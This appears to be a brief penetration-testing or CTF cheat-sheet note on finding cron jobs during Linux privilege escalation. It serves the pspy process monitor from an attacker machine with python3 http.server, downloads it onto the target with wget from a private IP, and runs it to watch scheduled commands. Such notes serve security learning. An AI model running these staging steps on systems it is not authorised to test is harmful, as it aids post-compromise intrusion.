

cron jobs
PSPY
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32
python3 -m http.server
wget "http://10.10.15.123:8000/pspy32" #from the target
chmod +x pspy32
1.
Execute on the target pspy The -pf flag tells the tool to print commands and file system events and -i 1000 tells it to scan
profcs every 1000ms (or every second).
Wait some minutes waiting if some commands are running
